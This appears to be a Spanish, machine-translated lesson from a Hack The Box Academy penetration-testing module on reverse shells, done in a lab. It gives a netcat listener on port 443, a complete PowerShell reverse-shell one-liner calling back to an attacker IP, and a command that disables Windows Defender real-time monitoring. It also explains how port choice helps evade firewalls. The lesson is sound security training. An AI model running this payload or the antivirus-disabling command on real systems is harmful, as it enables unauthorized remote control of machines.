 # Conchas de reverso

Con un`reverse shell`, El cuadro de ataque tendrá un oyente en ejecución, y el objetivo necesitará iniciar la conexión.

### **Ejemplo de shell inverso**

![](https://academy.hackthebox.com/storage/modules/115/reverseshell.png)

A menudo usaremos este tipo de caparazón a medida que nos encontramos con sistemas vulnerables porque es probable que un administrador pase por alto las conexiones salientes, dándonos una mejor oportunidad de no ser detectados. La última sección discutió cómo los shells de enlace dependen de las conexiones entrantes permitidas a través del firewall en el lado del servidor. Será mucho más difícil lograr esto en un escenario del mundo real. Como se ve en la imagen de arriba, estamos comenzando un oyente para un shell inverso en nuestro cuadro de ataque y usando algún método (ejemplo:`Unrestricted File Upload`, `Command Injection`, etc.) para obligar al objetivo a iniciar una conexión con nuestro cuadro de destino, lo que significa efectivamente que nuestro cuadro de ataque se convierte en el servidor y el objetivo se convierte en el cliente.

No siempre necesitamos reinventar la rueda cuando se trata de cargas útiles (comandos y código) que tenemos la intención de usar cuando intentamos establecer un shell inverso con un objetivo. Existen herramientas útiles que los veteranos de Infosec han reunido para ayudarnos.[Hoja de trucos de shell inverso](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)es un recurso fantástico que contiene una lista de diferentes comandos, código e incluso generadores automatizados de shell inverso que podemos usar al practicar o en una participación real. Debemos tener en cuenta que muchos administradores conocen repositorios públicos y recursos de código abierto que los probadores de penetración comúnmente usan. Pueden hacer referencia a estos Repos como parte de sus consideraciones principales sobre qué esperar de un ataque y sintonizar sus controles de seguridad en consecuencia. En algunos casos, es posible que necesitemos personalizar un poco nuestros ataques.

Trabajemos a mano con esto para comprender mejor estos conceptos.

---

# **Práctico con un shell inverso simple en Windows**

Con este tutorial, estableceremos un shell inverso simple utilizando algún código PowerShell en un objetivo de Windows. Comencemos el objetivo y comencemos.

Podemos iniciar un oyente de NetCat en nuestro cuadro de ataque a medida que el objetivo genera.

### **Servidor (`attack box`)**

Conchas de reverso

```
xnoxos@htb[/htb]$ sudo nc -lvnp 443Listening on 0.0.0.0 443

```

Esta vez con nuestro oyente, lo estamos vinculando a un[puerto común](https://docs.redhat.com/en/documentation/red_hat_enterprise_linux/4/html/security_guide/ch-ports#ch-ports) (`443`), este puerto generalmente es para`HTTPS`conexiones. Es posible que deseemos usar puertos comunes como este porque cuando iniciamos la conexión con nuestro oyente, queremos asegurarnos de que no se bloquee saliendo a través del firewall del sistema operativo y a nivel de red. Sería raro ver a cualquier equipo de seguridad que bloquee 443 salidas, ya que muchas aplicaciones y organizaciones dependen de HTTPS para llegar a varios sitios web durante todo el día de trabajo. Dicho esto, un firewall capaz de una inspección profunda de paquetes y la visibilidad de la capa 7 puede ser capaz de detectar y detener una capa inversa saliendo en un puerto común porque está examinando el contenido de los paquetes de red, no solo la dirección IP y el puerto. La evasión detallada del firewall está fuera del alcance de este módulo, por lo que solo tocaremos brevemente las técnicas de detección y evasión en todo el módulo, así como en la sección dedicada al final.

Una vez que el objetivo de Windows ha generado, conectemos usando RDP.

NetCat se puede usar para iniciar el shell inverso en el lado de Windows, pero debemos tener en cuenta qué aplicaciones ya están presentes en el sistema. NetCat no es nativo de los sistemas de Windows, por lo que puede no ser confiable en contarlo como nuestra herramienta en el lado de Windows. Veremos en una sección posterior que para usar NetCat en Windows, debemos transferir un binario NetCat a un objetivo, lo que puede ser complicado cuando no tenemos capacidades de carga de archivos desde el inicio. Dicho esto, es ideal usar las herramientas nativas (que viven fuera de la tierra) al objetivo al que estamos tratando de obtener acceso.

`What applications and shell languages are hosted on the target?`

Esta es una excelente pregunta para hacer en cualquier momento que estemos tratando de establecer una carcasa inversa. Usemos el símbolo del sistema y PowerShell para establecer este shell inverso simple. Podemos usar un enlace de Shell inverso de PowerShell estándar para ilustrar este punto.

En el objetivo de Windows, abra un símbolo del sistema y copie y pegue este comando:

### **Cliente (Target)**

Conchas de reverso

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

Nota: Si estamos utilizando Pwnbox, tenga en cuenta que algunos navegadores no funcionan tan perfectamente al usar la función de portapapeles para pegar un comando directamente en la CLI de un objetivo. En estos casos, es posible que deseemos pegar en el bloc de notas en el objetivo, luego copiar y pegar desde el interior del objetivo.

Eche un vistazo de cerca al comando y considere lo que necesitamos cambiar para que esto nos permita establecer un caparazón inversa con nuestro cuadro de ataque. Este código de PowerShell también se puede llamar`shell code`o nuestro`payload`. Entregar esta carga útil al sistema de Windows fue bastante sencilla, considerando que tenemos un control completo del objetivo para fines de demostración. A medida que avanza este módulo, notaremos la dificultad aumenta en cómo entregamos la carga útil a los objetivos.

`What happened when we hit enter in command prompt?`

### **Cliente (Target)**

Conchas de reverso

```
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

```

El`Windows Defender antivirus` (`AV`) El software detuvo la ejecución del código. Esto funciona exactamente como se pretendía, y desde un`defensive`perspectiva, esta es un`win`. Desde un punto de vista ofensivo, hay algunos obstáculos que superar si AV está habilitado en un sistema con el que estamos tratando de conectarnos. Para nuestros propósitos, querremos deshabilitar el antivirus a través del`Virus & threat protection settings`o utilizando este comando en una consola administrativa de PowerShell (haga clic derecho, ejecute como administrador):

### **Deshabilitar AV**

Conchas de reverso

```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

Una vez que AV está deshabilitado, intente ejecutar el código nuevamente.

### **Servidor (cuadro de ataque)**

Conchas de reverso

```
xnoxos@htb[/htb]$ sudo nc -lvnp 443Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student

```

De vuelta en nuestro cuadro de ataque, debemos notar que establecimos con éxito un caparazón inverso. Podemos ver esto por el cambio en el mensaje que comienza con`PS`y nuestra capacidad de interactuar con el sistema operativo y el sistema de archivos. Intente ejecutar algunos comandos estándar de Windows para practicar un poco.

Ahora, probemos nuestro conocimiento con algunas preguntas de desafío.